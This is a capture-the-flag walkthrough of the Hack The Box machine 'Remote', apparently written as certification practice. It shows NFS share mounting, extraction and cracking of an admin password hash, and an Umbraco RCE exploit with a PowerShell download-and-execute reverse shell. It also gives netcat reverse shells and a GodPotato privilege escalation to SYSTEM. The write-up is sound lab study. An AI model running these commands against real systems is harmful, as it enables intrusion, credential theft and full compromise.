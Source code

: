```yaml
---
layout: post
title: "Remote"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and scan it with nmap

```bash
rustscan -a 10.129.230.172

21/tcp    open  ftp          syn-ack
80/tcp    open  http         syn-ack
111/tcp   open  rpcbind      syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
2049/tcp  open  nfs          syn-ack
5985/tcp  open  wsman        syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49677/tcp open  unknown      syn-ack
49678/tcp open  unknown      syn-ack
49679/tcp open  unknown      syn-ack
49680/tcp open  unknown      syn-ack

sudo nmap -sC -sV -p21,80,111,135,445,2049,5985,47001,49664,49665,49666,49677,49678,49679,49680 -oA nmap/remote 10.129.230.172

notable;

21: FTP allows anon login
80: Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
445: SMB
2049: NFS
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

```

Let’s visit the web first. Found a page in contacts that has a login form. When trying to login:

![image.png](/assets/remote/image.png)

Let’s try sql inject.

```bash
username: 'OR 1=1-- -
```

Does not work. Let’s see what’s in the ftp and smb shares

```bash
ftp 10.129.230.172 21
#emtpy

smbclient -N -L //10.129.230.172
#no null session
```

Let’s enumerate for subdirectories

```bash
gobuster dir -u http://10.129.230.172/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

/contact              (Status: 200) [Size: 7880]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/blog                 (Status: 200) [Size: 5001]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5338]
/product              (Status: 500) [Size: 3420]
/intranet             (Status: 200) [Size: 3313]
/Install              (Status: 302) [Size: 126] [--> /umbraco/]
/people               (Status: 200) [Size: 6739]
/Home                 (Status: 200) [Size: 6703]
/about-us             (Status: 200) [Size: 5451]
/umbraco              (Status: 200) [Size: 4040]
/Products             (Status: 200) [Size: 5338]
/Blog                 (Status: 200) [Size: 5011]
/master               (Status: 500) [Size: 3420]
/Product              (Status: 500) [Size: 3420]
/Contact              (Status: 200) [Size: 7880]
/INSTALL              (Status: 302) [Size: 126] [--> /umbraco/]
/person               (Status: 200) [Size: 2741]
/Master               (Status: 500) [Size: 3420]
/Intranet             (Status: 200) [Size: 3313]
/People               (Status: 200) [Size: 6739]
/Person               (Status: 200) [Size: 2741]
/‎                    (Status: 200) [Size: 6693]
/HOME                 (Status: 200) [Size: 6703]
/BLOG                 (Status: 200) [Size: 5011]
/About-Us             (Status: 200) [Size: 5451]
/1111                 (Status: 200) [Size: 4206]
/CONTACT              (Status: 200) [Size: 7890]
/INTRANET             (Status: 200) [Size: 3323]
/PRODUCTS             (Status: 200) [Size: 5338]
/PRODUCT              (Status: 500) [Size: 3420]
Progress: 23944 / 30001 (79.81%)[ERROR] parse "http://10.129.230.172/error\x1f_log": net/url: invalid control character in URL
/1117                 (Status: 200) [Size: 2750]
/1118                 (Status: 200) [Size: 2752]
/1116                 (Status: 200) [Size: 6739]
/1148                 (Status: 200) [Size: 3313]
P

gobuster dir -u http://10.129.230.172 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

Playing around the site we find /blog page and the page parameter might be vulnerable to file inclusion. Let’s test it out with ffuf

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.129.230.172/blog/?page=FUZZ' -fw 1249

```

Nothing here so far. Let’s see what’s in the NFS share

```bash
showmount -e 10.129.230.172

result:
Export list for 10.129.230.172:
/site_backups (everyone)

#This means we can mount it

mkdir /mnt/remote
sudo mount -t nfs 10.129.230.172:/site_backups /mnt/remote
```

Found username in a sdf (database) file in App_Data

```bash
strings Umbraco.sdf | grep -i password

admin@htb.local

strings Umbraco.sdf | grep -i "admin@htb.local"

We find SHA1 hash
admin@htb.local
b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

We can test if the hash can be cracked online e.g. crackstation and it’s a common password. We now have the credential of admin. Now we can go back to the web and login. When logged on, we can click on the question mark and it will give us the version of Umbraco (Umbraco version 7.12.4).

Now we can do search for the exploit and try and get a reverse shell. First we verified that umbraco has a RCE vulnerability so we need a windows reverse shell; Invoke-PowerShellTcp.ps1. First copy it to your attack dir and rename it to something simple like rev.ps1 and add the following to the bottom

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.118 -Port 9001
```

Now search for the exploit and save it to the attacking dir and change the following:

```bash
searchsploit umbraco
searchsploit -m 46153.py

Then change the following in the exploit file:
login = "admin@htb.local;
password="baconandcheese";
host = "http://10.129.230.172";
proc.StartInfo.FileName = "poweshell.exe";
string cmd = "IEX (IWR http://10.10.14.118:1234/rev.ps1 -UseBasicParsing)"

IEX(New-Object Net.Webclient).downloadString("http://10.10.14.118:1234/rev.ps1
```

Now start a python server on host and a listening port then execute the script

```bash
python3 -m http.server 1234

ON ANOTHER TAB:
nc -lnvp 9001
```

And now we have a reverse shell:

```bash
whoami
iis apppool\defaultapppool

PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 

```

SeImpersonatePrivilege is enabled so let’s search up how to exploit that and we find https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070

Now we download GodPotato from https://github.com/BeichenDream/GodPotato/releases, just download this version [GodPotato-NET2.exe](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe)
    

```bash
iwr http://10.10.14.118:1234/GodPotato-NET2.exe -OutFile godpotato.exe

#also trasnfer nc.exe

iwr http://10.10.14.118:1234/nc.exe -OutFile nc.exe

#now start a listening port on attack host
rlwrap nc -lnvp 4040

#Nowe we exploit

.\godpotato.exe -cmd ".\nc.exe -e cmd.exe 10.10.14.118 4040"
```

Now we have nt/authority shell

- mount nfs share
- strings to find password in db
- crackstation
- Invoke-PowerShellTcp.ps1 reverse shell
- god potato

We also check the Windows architecture:

```bash
wmic os get osarchitecture

result:
64-bit    
```

Let’s use winPEAS to enumerate for potential vulnerabilities. First cp winPEASx64.exe to our attack dir and retrieve the executable from our python server from Windows

```bash
iwr http://10.10.14.118:1234/winPEASx64.exe -OutFile winpeas.exe

.\winpeas.exe

result:
**? Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:                                                                            RmSvc: GenericExecute (Start/Stop)                                                                                             
    UsoSvc: AllAccess, Start**
```